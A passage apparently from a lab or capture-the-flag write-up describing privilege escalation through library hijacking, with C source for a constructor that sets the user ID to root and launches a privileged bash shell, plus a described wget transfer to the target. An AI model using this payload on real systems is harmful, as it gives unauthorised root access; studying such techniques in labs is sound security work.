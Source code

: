 ![Alt text](/posts/res/hij_23.png)

to escalate our privilege, we create and compile the following file

```
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
        unsetenv("LD_LIBRARY_PATH");
        setresuid(0,0,0);
        system("/bin/bash -p");
}
```

we can then transfer the script over to our target system by starting up a simple web server and using the wget command to download the file.

![Alt text](/posts/res/hij_24.png)
